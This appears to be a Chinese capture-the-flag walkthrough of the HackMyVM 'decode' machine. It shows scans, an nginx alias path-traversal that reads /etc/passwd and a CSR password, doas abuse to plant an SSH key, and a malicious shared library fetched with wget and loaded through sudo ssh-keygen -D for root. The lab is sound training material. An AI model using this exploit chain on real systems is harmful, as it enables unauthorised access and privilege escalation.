

# 信息搜集

主机发现

```markup
┌──(kali㉿kali)-[~]
└─$ nmap -sn 192.168.21.0/24   
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-15 00:41 EDT
Nmap scan report for 192.168.21.1 (192.168.21.1)
Host is up (0.0019s latency).
MAC Address: CC:E0:DA:EB:34:A2 (Baidu Online Network Technology (Beijing))
Nmap scan report for 192.168.21.2 (192.168.21.2)
Host is up (0.000077s latency).
MAC Address: 04:6C:59:BD:33:50 (Intel Corporate)
Nmap scan report for 192.168.21.6 (192.168.21.6)
Host is up (0.080s latency).
MAC Address: C2:AB:39:9E:98:94 (Unknown)
Nmap scan report for 192.168.21.11 (192.168.21.11)
Host is up (0.00021s latency).
MAC Address: 08:00:27:B7:CA:64 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.21.10 (192.168.21.10)
Host is up.
Nmap done: 256 IP addresses (5 hosts up) scanned in 2.26 seconds
```

端口扫描

```markup
┌──(kali㉿kali)-[~]
└─$ nmap --min-rate 10000 -p- 192.168.21.11
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-15 00:41 EDT
Nmap scan report for 192.168.21.11 (192.168.21.11)
Host is up (0.00011s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:B7:CA:64 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.94 seconds
                                                                
┌──(kali㉿kali)-[~]
└─$ nmap -sT -sV -O -p22,80 192.168.21.11  
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-15 00:42 EDT
Nmap scan report for 192.168.21.11 (192.168.21.11)
Host is up (0.00029s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
80/tcp open  http    nginx 1.18.0
MAC Address: 08:00:27:B7:CA:64 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, OpenWrt 21.02 (Linux 5.4), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.66 seconds
```

# 漏洞利用

目录扫描

```markup
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://192.168.21.11 -w SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt        
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.21.11
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/cgi-bin              (Status: 301) [Size: 169] [--> http://192.168.21.11/cgi-bin/]                                             
/1                    (Status: 200) [Size: 240]
/decode               (Status: 301) [Size: 169] [--> http://192.168.21.11/decode/]                                              
Progress: 1185254 / 1185255 (100.00%)
===============================================================
Finished
===============================================================
```

/1



更深的目录扫描

```markup
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://192.168.21.11/decode -w SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.21.11/decode
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/default              (Status: 301) [Size: 169] [--> http://192.168.21.11/decode/default/]                                      
/security             (Status: 301) [Size: 169] [--> http://192.168.21.11/decode/security/]                                     
/services             (Status: 200) [Size: 12813]
/profile              (Status: 200) [Size: 769]
/modules              (Status: 200) [Size: 195]
/network              (Status: 301) [Size: 169] [--> http://192.168.21.11/decode/network/]                                      
/php                  (Status: 301) [Size: 169] [--> http://192.168.21.11/decode/php/]                                          
/perl                 (Status: 301) [Size: 169] [--> http://192.168.21.11/decode/perl/]                                         
/group                (Status: 200) [Size: 758]
/environment          (Status: 200) [Size: 0]
/ssl                  (Status: 301) [Size: 169] [--> http://192.168.21.11/decode/ssl/]                                          
/ssh                  (Status: 301) [Size: 169] [--> http://192.168.21.11/decode/ssh/]                                          
/issue                (Status: 200) [Size: 27]
/networks             (Status: 200) [Size: 60]
/bluetooth            (Status: 301) [Size: 169] [--> http://192.168.21.11/decode/bluetooth/]                                    
/kernel               (Status: 301) [Size: 169] [--> http://192.168.21.11/decode/kernel/]                                       
/sv                   (Status: 301) [Size: 169] [--> http://192.168.21.11/decode/sv/]                                           
/shadow               (Status: 403) [Size: 153]
/fonts                (Status: 301) [Size: 169] [--> http://192.168.21.11/decode/fonts/]                                        
/protocols            (Status: 200) [Size: 2932]
/vim                  (Status: 301) [Size: 169] [--> http://192.168.21.11/decode/vim/]                                          
/rpc                  (Status: 200) [Size: 887]
/magic                (Status: 200) [Size: 111]
/hosts                (Status: 200) [Size: 186]
/emacs                (Status: 301) [Size: 169] [--> http://192.168.21.11/decode/emacs/]                                        
/passwd               (Status: 200) [Size: 1638]
/shells               (Status: 200) [Size: 116]
/opt                  (Status: 301) [Size: 169] [--> http://192.168.21.11/decode/opt/]                                          
/apt                  (Status: 301) [Size: 169] [--> http://192.168.21.11/decode/apt/]                                          
/ldap                 (Status: 301) [Size: 169] [--> http://192.168.21.11/decode/ldap/]                                         
/dhcp                 (Status: 301) [Size: 169] [--> http://192.168.21.11/decode/dhcp/]                                         
/motd                 (Status: 200) [Size: 286]
/alternatives         (Status: 301) [Size: 169] [--> http://192.168.21.11/decode/alternatives/]                                 
/nginx                (Status: 301) [Size: 169] [--> http://192.168.21.11/decode/nginx/]                                        
/selinux              (Status: 301) [Size: 169] [--> http://192.168.21.11/decode/selinux/]                                      
/gss                  (Status: 301) [Size: 169] [--> http://192.168.21.11/decode/gss/]                                          
/timezone             (Status: 200) [Size: 17]
/python3              (Status: 301) [Size: 169] [--> http://192.168.21.11/decode/python3/]                                      
/udev                 (Status: 301) [Size: 169] [--> http://192.168.21.11/decode/udev/]                                         
/hostname             (Status: 200) [Size: 7]
/xdg                  (Status: 301) [Size: 169] [--> http://192.168.21.11/decode/xdg/]                                          
/skel                 (Status: 301) [Size: 169] [--> http://192.168.21.11/decode/skel/]                                         
/groff                (Status: 301) [Size: 169] [--> http://192.168.21.11/decode/groff/]                                        
/crontab              (Status: 200) [Size: 1042]
/rmt                  (Status: 200) [Size: 60376]
/apparmor             (Status: 301) [Size: 169] [--> http://192.168.21.11/decode/apparmor/]                                     
/iproute2             (Status: 301) [Size: 169] [--> http://192.168.21.11/decode/iproute2/]                                     
/localtime            (Status: 200) [Size: 3536]
/terminfo             (Status: 301) [Size: 169] [--> http://192.168.21.11/decode/terminfo/]                                     
/dpkg                 (Status: 301) [Size: 169] [--> http://192.168.21.11/decode/dpkg/]                                         
/wpa_supplicant       (Status: 301) [Size: 169] [--> http://192.168.21.11/decode/wpa_supplicant/]                               
/netconfig            (Status: 200) [Size: 767]
/bash_completion      (Status: 200) [Size: 45]
Progress: 1185254 / 1185255 (100.00%)
===============================================================
Finished
===============================================================
```

/decode/passwd


爆破一下steve可惜没出来
发现这个目录会自动在后面添加/

```markup
┌──(kali㉿kali)-[~]
└─$ curl -i http://192.168.21.11/decode      
HTTP/1.1 301 Moved Permanently
Server: nginx/1.18.0
Date: Tue, 15 Apr 2025 05:01:36 GMT
Content-Type: text/html
Location: http://192.168.21.11/decode/
Transfer-Encoding: chunked
Connection: keep-alive

<html>
<head><title>301 Moved Permanently</title></head>
<body>
<center><h1>301 Moved Permanently</h1></center>
<hr><center>nginx/1.18.0</center>
</body>
</html>
                                                                
┌──(kali㉿kali)-[~]
└─$ curl -i http://192.168.21.11/decodepasswd
HTTP/1.1 200 OK
Server: nginx/1.18.0
Date: Tue, 15 Apr 2025 05:01:40 GMT
Content-Type: application/octet-stream
Transfer-Encoding: chunked
Connection: keep-alive

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:101:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:105:113:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
steve:$y$j9T$gbohHcbFkUEmW0d3ZeUx40$Xa/DJJdFujIezo5lg9PDmswZH32cG6kAWP.crcqrqo/:1001:1001::/usr/share:/bin/bash
decoder:x:1002:1002::/home/decoder:/usr/sbin/nologin
ajneya:x:1003:1003::/home/ajneya:/bin/bash
```

目录扫描

```markup
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://192.168.21.11/decode.. -w SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.21.11/decode..
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/home                 (Status: 301) [Size: 169] [--> http://192.168.21.11/decode../home/]                                       
/media                (Status: 301) [Size: 169] [--> http://192.168.21.11/decode../media/]                                      
/bin                  (Status: 301) [Size: 169] [--> http://192.168.21.11/decode../bin/]                                        
/lib                  (Status: 301) [Size: 169] [--> http://192.168.21.11/decode../lib/]                                        
/dev                  (Status: 301) [Size: 169] [--> http://192.168.21.11/decode../dev/]                                        
/etc                  (Status: 301) [Size: 169] [--> http://192.168.21.11/decode../etc/]                                        
/root                 (Status: 403) [Size: 153]
/tmp                  (Status: 301) [Size: 169] [--> http://192.168.21.11/decode../tmp/]                                        
/sys                  (Status: 301) [Size: 169] [--> http://192.168.21.11/decode../sys/]                                        
/var                  (Status: 301) [Size: 169] [--> http://192.168.21.11/decode../var/]                                        
/usr                  (Status: 301) [Size: 169] [--> http://192.168.21.11/decode../usr/]                                        
/run                  (Status: 301) [Size: 169] [--> http://192.168.21.11/decode../run/]                                        
/boot                 (Status: 301) [Size: 169] [--> http://192.168.21.11/decode../boot/]                                       
/opt                  (Status: 301) [Size: 169] [--> http://192.168.21.11/decode../opt/]                                        
/srv                  (Status: 301) [Size: 169] [--> http://192.168.21.11/decode../srv/]                                        
/proc                 (Status: 301) [Size: 169] [--> http://192.168.21.11/decode../proc/]                                       
/sbin                 (Status: 301) [Size: 169] [--> http://192.168.21.11/decode../sbin/]                                       
/mnt                  (Status: 301) [Size: 169] [--> http://192.168.21.11/decode../mnt/]                                        
Progress: 1185254 / 1185255 (100.00%)
===============================================================
```

steve在/usr/share，尝试寻找能利用的文件

```markup
┌──(kali㉿kali)-[~]
└─$ curl -i http://192.168.21.11/decode../usr/share/.bash_history 
HTTP/1.1 200 OK
Server: nginx/1.18.0
Date: Tue, 15 Apr 2025 05:10:00 GMT
Content-Type: application/octet-stream
Transfer-Encoding: chunked
Connection: keep-alive

rm -rf /usr/share/ssl-cert/decode.csr
                                                                
┌──(kali㉿kali)-[~]
└─$ curl -i http://192.168.21.11/decode../usr/share/ssl-cert/decode.csr
HTTP/1.1 200 OK
Server: nginx/1.18.0
Date: Tue, 15 Apr 2025 05:10:21 GMT
Content-Type: application/octet-stream
Transfer-Encoding: chunked
Connection: keep-alive

-----BEGIN CERTIFICATE REQUEST-----
MIIDAzCCAesCAQAwSDERMA8GA1UEAwwISGFja015Vk0xDzANBgNVBAgMBmRlY29k
ZTEPMA0GA1UEBwwGZGVjb2RlMREwDwYDVQQKDAhIYWNrTXlWTTCCASIwDQYJKoZI
hvcNAQEBBQADggEPADCCAQoCggEBANnSG9vEEGPRgDA/cT6NT3sMKsi6dLhKwRgy
PcRpRt1TO63kpY2PxNSgOPpydjUm34nwghy5lPL4+GBXoNOHMhQI1hUVqZXmuFB8
+DCETqXNfV5JnTRMG5tr2m4vV1HNTH+/GUueBm5R/ERu69n2xMADs4nEL3iRjOO/
19sYZIj+ZDaN3MouyqrprWy9PBwKf2VTy4prJh6nTEVSV8oRRtd+nOxfEG6890+P
lF6s0XDpv8V001aiJWSceYPIikvKXaVy45h3JoYzWsQzt3b1R22DuPjAOQ3AvZbp
V68lkF+S1rIa7gsb8oeZI16yPz+GEPVvXGzLyIYhDixdxOCFZaECAwEAAaB2MBkG
CSqGSIb3DQEJBzEMDAppNG1EM2MwZDNyMFkGCSqGSIb3DQEJDjFMMEowDgYDVR0P
AQH/BAQDAgWgMCAGA1UdJQEB/wQWMBQGCCsGAQUFBwMBBggrBgEFBQcDAjAWBgNV
HREEDzANggtoYWNrbXl2bS5ldTANBgkqhkiG9w0BAQsFAAOCAQEAO73W3pTMqSm2
A37vepuR4F3ycnFKdFyRhk1rtO1LE9OWOI3bQ7kW0wIFuRaqFONsG/mvGFgEfRR8
xpgSYmnzWJQ0nTOtGi6d7F0dFFmYIXe75+6QYM2ZwAYf3lW+HRKLXhh5FMeoXJHo
eU64o9tFdhWxcB1OLAGEG9MI6AhN62ZTrKwMq13/PIteoPAEnlVgBidxQxUVHQfO
EwMP38jzm+HESbZsNVjX4RQjtvBUAKQUTBRYuS02QqqC5ajHz0RWaGgrGIyKrip5
yRjgsjxtmadaetxSasIg5tsjSFGyyVVPsdY4umAUUm+dSobruxcyXuxXIgn27Z7M
h97It2ELpw==
-----END CERTIFICATE REQUEST-----
```

保存下来，查看一下

```markup
┌──(kali㉿kali)-[~]
└─$ openssl req -in 1.csr -noout -text
Certificate Request:
    Data:
        Version: 1 (0x0)
        Subject: CN=HackMyVM, ST=decode, L=decode, O=HackMyVM
        Subject Public Key Info:
            Public Key Algorithm: rsaEncryption
                Public-Key: (2048 bit)
                Modulus:
                    00:d9:d2:1b:db:c4:10:63:d1:80:30:3f:71:3e:8d:
                    4f:7b:0c:2a:c8:ba:74:b8:4a:c1:18:32:3d:c4:69:
                    46:dd:53:3b:ad:e4:a5:8d:8f:c4:d4:a0:38:fa:72:
                    76:35:26:df:89:f0:82:1c:b9:94:f2:f8:f8:60:57:
                    a0:d3:87:32:14:08:d6:15:15:a9:95:e6:b8:50:7c:
                    f8:30:84:4e:a5:cd:7d:5e:49:9d:34:4c:1b:9b:6b:
                    da:6e:2f:57:51:cd:4c:7f:bf:19:4b:9e:06:6e:51:
                    fc:44:6e:eb:d9:f6:c4:c0:03:b3:89:c4:2f:78:91:
                    8c:e3:bf:d7:db:18:64:88:fe:64:36:8d:dc:ca:2e:
                    ca:aa:e9:ad:6c:bd:3c:1c:0a:7f:65:53:cb:8a:6b:
                    26:1e:a7:4c:45:52:57:ca:11:46:d7:7e:9c:ec:5f:
                    10:6e:bc:f7:4f:8f:94:5e:ac:d1:70:e9:bf:c5:74:
                    d3:56:a2:25:64:9c:79:83:c8:8a:4b:ca:5d:a5:72:
                    e3:98:77:26:86:33:5a:c4:33:b7:76:f5:47:6d:83:
                    b8:f8:c0:39:0d:c0:bd:96:e9:57:af:25:90:5f:92:
                    d6:b2:1a:ee:0b:1b:f2:87:99:23:5e:b2:3f:3f:86:
                    10:f5:6f:5c:6c:cb:c8:86:21:0e:2c:5d:c4:e0:85:
                    65:a1
                Exponent: 65537 (0x10001)
        Attributes:
            challengePassword        :i4mD3c0d3r
            Requested Extensions:
                X509v3 Key Usage: critical
                    Digital Signature, Key Encipherment
                X509v3 Extended Key Usage: critical
                    TLS Web Server Authentication, TLS Web Client Authentication
                X509v3 Subject Alternative Name: 
                    DNS:hackmyvm.eu
    Signature Algorithm: sha256WithRSAEncryption
    Signature Value:
        3b:bd:d6:de:94:cc:a9:29:b6:03:7e:ef:7a:9b:91:e0:5d:f2:
        72:71:4a:74:5c:91:86:4d:6b:b4:ed:4b:13:d3:96:38:8d:db:
        43:b9:16:d3:02:05:b9:16:aa:14:e3:6c:1b:f9:af:18:58:04:
        7d:14:7c:c6:98:12:62:69:f3:58:94:34:9d:33:ad:1a:2e:9d:
        ec:5d:1d:14:59:98:21:77:bb:e7:ee:90:60:cd:99:c0:06:1f:
        de:55:be:1d:12:8b:5e:18:79:14:c7:a8:5c:91:e8:79:4e:b8:
        a3:db:45:76:15:b1:70:1d:4e:2c:01:84:1b:d3:08:e8:08:4d:
        eb:66:53:ac:ac:0c:ab:5d:ff:3c:8b:5e:a0:f0:04:9e:55:60:
        06:27:71:43:15:15:1d:07:ce:13:03:0f:df:c8:f3:9b:e1:c4:
        49:b6:6c:35:58:d7:e1:14:23:b6:f0:54:00:a4:14:4c:14:58:
        b9:2d:36:42:aa:82:e5:a8:c7:cf:44:56:68:68:2b:18:8c:8a:
        ae:2a:79:c9:18:e0:b2:3c:6d:99:a7:5a:7a:dc:52:6a:c2:20:
        e6:db:23:48:51:b2:c9:55:4f:b1:d6:38:ba:60:14:52:6f:9d:
        4a:86:eb:bb:17:32:5e:ec:57:22:09:f6:ed:9e:cc:87:de:c8:
        b7:61:0b:a7
```

登录成功

```markup
┌──(kali㉿kali)-[~]
└─$ ssh steve@192.168.21.11     
The authenticity of host '192.168.21.11 (192.168.21.11)' can't be established.
ED25519 key fingerprint is SHA256:hyaH0n5p7+5xBVQEL/hRIeOVRNWsLv8qjefRknYQi6Q.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:15: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.21.11' (ED25519) to the list of known hosts.
steve@192.168.21.11's password: 
Linux decode 5.10.0-13-amd64 #1 SMP Debian 5.10.106-1 (2022-03-17) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Apr 14 14:43:35 2022 from 192.168.1.5
steve@decode:~$
```

# 提权

看一下有什么

```markup
steve@decode:~$ sudo -l
Matching Defaults entries for steve on decode:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User steve may run the following commands on decode:
    (decoder) NOPASSWD: /usr/bin/openssl enc *, /usr/bin/tee
steve@decode:~$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/umount
/usr/bin/chsh
/usr/bin/su
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/doas
/usr/bin/mount
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
steve@decode:~$ /usr/sbin/getcap -r / 2>/dev/null
/usr/bin/ping cap_net_raw=ep
steve@decode:~$ cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
steve:$y$j9T$gbohHcbFkUEmW0d3ZeUx40$Xa/DJJdFujIezo5lg9PDmswZH32cG6kAWP.crcqrqo/:1001:1001::/usr/share:/bin/bash
ajneya:x:1003:1003::/home/ajneya:/bin/bash
```

提权


```markup
steve@decode:~$ cat /etc/doas.conf
permit nopass steve as ajneya cmd cp
----
┌──(kali㉿kali)-[~/.ssh]
└─$ ssh-keygen -t rsa
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kali/.ssh/id_rsa): 
Enter passphrase for "/home/kali/.ssh/id_rsa" (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/kali/.ssh/id_rsa
Your public key has been saved in /home/kali/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:t4KFjme+nh3pCS9Ejr/dfPt/VNxYoe46x4d7hooD0bI kali@kali
The key's randomart image is:
+---[RSA 3072]----+
|               ..|
|              . .|
|        .    . +.|
|      .+ .  . . +|
|     +. S .  .  .|
|    .ooE o ..   .|
|    .o* = . ..o. |
|     +oB B..o= +.|
|     .*+*.++=+*.o|
+----[SHA256]-----+                                                            
┌──(kali㉿kali)-[~/.ssh]
└─$ ls -la
total 24
drwx------  2 kali kali 4096 Apr 15 01:20 .
drwx------ 20 kali kali 4096 Apr 15 01:18 ..
-rw-------  1 kali kali 2590 Apr 15 01:20 id_rsa
-rw-r--r--  1 kali kali  563 Apr 15 01:20 id_rsa.pub
-rw-------  1 kali kali 3418 Apr 15 01:13 known_hosts
-rw-------  1 kali kali 3054 Apr 14 02:35 known_hosts.old                                                            
┌──(kali㉿kali)-[~/.ssh]
└─$ cat id_rsa.pub              
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCov0xwl2sV2tttiFYDgaWkSWoyt6K7GZsG1ItzxiatCdajtxCJPA14JKjIAKIBoveCzolxR497cVVe9WfQSZSwZSTWr0rufeHMq1jfJ26VgDszi1o7TMRpf+HyGgZvt1QH59wVqOJ9ltQCKfTaojOK/AARvvaH8pz/4hkZWnazuspf/KRF44+pgL1fr2/E2f/d6bWYQc6qUarTGmd+V5dXgBSUSxHJORh2CXIBHgi+DgErAFj/plmYkm8x60FN1GtOj1l3zvTZADOkBvS1kL7+PcrL5I1WJT7UjrIw+HmRJwu1ifhXueMY9WNRwr9IuKe/EdEhWAPDI7sKVy/BiRmoZmLNaCf/vnBYaGgHW9Lf/9XPH9VKQqvRMvMlfVlNPwCiphxl+Zfx/xO1w+hkPXmICJc9LW85ngFjDyV3CfCzVlUDYbB7jb/rv5ZXN7FLFrUPulI+mQXcE91Ea1gsW7dR/4PTo/JBMWj2d0bPg07yLKafdGC/hHI3S+V7L2O/tCc= kali@kali
----
steve@decode:~$ mkdir .ssh
steve@decode:~$ cd .ssh
steve@decode:~/.ssh$ echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCov0xwl2sV2tttiFYDgaWkSWoyt6K7GZsG1ItzxiatCdajtxCJPA14JKjIAKIBoveCzolxR497cVVe9WfQSZSwZSTWr0rufeHMq1jfJ26VgDszi1o7TMRpf+HyGgZvt1QH59wVqOJ9ltQCKfTaojOK/AARvvaH8pz/4hkZWnazuspf/KRF44+pgL1fr2/E2f/d6bWYQc6qUarTGmd+V5dXgBSUSxHJORh2CXIBHgi+DgErAFj/plmYkm8x60FN1GtOj1l3zvTZADOkBvS1kL7+PcrL5I1WJT7UjrIw+HmRJwu1ifhXueMY9WNRwr9IuKe/EdEhWAPDI7sKVy/BiRmoZmLNaCf/vnBYaGgHW9Lf/9XPH9VKQqvRMvMlfVlNPwCiphxl+Zfx/xO1w+hkPXmICJc9LW85ngFjDyV3CfCzVlUDYbB7jb/rv5ZXN7FLFrUPulI+mQXcE91Ea1gsW7dR/4PTo/JBMWj2d0bPg07yLKafdGC/hHI3S+V7L2O/tCc= kali@kali' > authorized_keys
steve@decode:~$ /usr/bin/doas -u ajneya cp -r .ssh /home/ajneya/
----
┌──(kali㉿kali)-[~/.ssh]
└─$ ssh ajneya@192.168.21.11 
Linux decode 5.10.0-13-amd64 #1 SMP Debian 5.10.106-1 (2022-03-17) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
ajneya@decode:~$
```

user.txt

```markup
ajneya@decode:~$ cat user.txt
ee11cbb19052e40b07aac0ca060c23ee
```

看一下有什么

```markup
ajneya@decode:~$ sudo -l
Matching Defaults entries for ajneya on decode:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User ajneya may run the following commands on decode:
    (root) NOPASSWD: /usr/bin/ssh-keygen * /opt/*
ajneya@decode:~$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/umount
/usr/bin/chsh
/usr/bin/su
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/doas
/usr/bin/mount
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
ajneya@decode:~$ /usr/sbin/getcap -r / 2>/dev/null
/usr/bin/ping cap_net_raw=ep
```

提权


```markup
┌──(kali㉿kali)-[~]
└─$ vim src.c 
----
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void hijack() {
    setreuid(0, 0);         // 设置实际 UID 和有效 UID 为 0
    system("/bin/bash");    // 弹 shell
}
----
┌──(kali㉿kali)-[~]
└─$ gcc src.c -fPIC -shared -o libshared.so
----
ajneya@decode:/tmp$ wget http://192.168.21.10:/libshared.so
--2025-04-15 01:47:59--  http://192.168.21.10/libshared.so
Connecting to 192.168.21.10:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 15424 (15K) [application/octet-stream]
Saving to: ‘libshared.so’

libshared.so    100%[=======>]  15.06K  --.-KB/s    in 0s      

2025-04-15 01:47:59 (470 MB/s) - ‘libshared.so’ saved [15424/15424]
ajneya@decode:/tmp$ chmod +x libshared.so
ajneya@decode:/tmp$ sudo -u root /usr/bin/ssh-keygen -D /opt/../../../tmp/libshared.so
root@decode:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
```

root.txt

```markup
root@decode:~# cat root.txt
63a9f0ea7bb98050796b649e85481845
```